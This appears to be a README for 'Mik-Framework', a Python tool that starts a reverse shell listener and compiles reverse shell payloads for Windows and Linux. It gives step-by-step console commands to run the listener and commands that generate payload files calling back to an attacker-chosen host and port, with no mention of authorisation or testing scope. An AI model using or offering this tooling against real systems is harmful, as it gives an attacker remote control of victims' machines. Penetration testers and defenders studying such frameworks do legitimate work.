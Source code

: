 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```~/Mik-Framework $ python3 mikconsole.py```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```mik> use revshell```

2.  Configure the host and port:
```
mik-revshell> set host 0.0.0.0
mik-revshell> set port 4545```

4. Run the server:
   ```mik-revshell> run```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw```

### Linux

To compile a payload for Linux, use the following command:

```python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
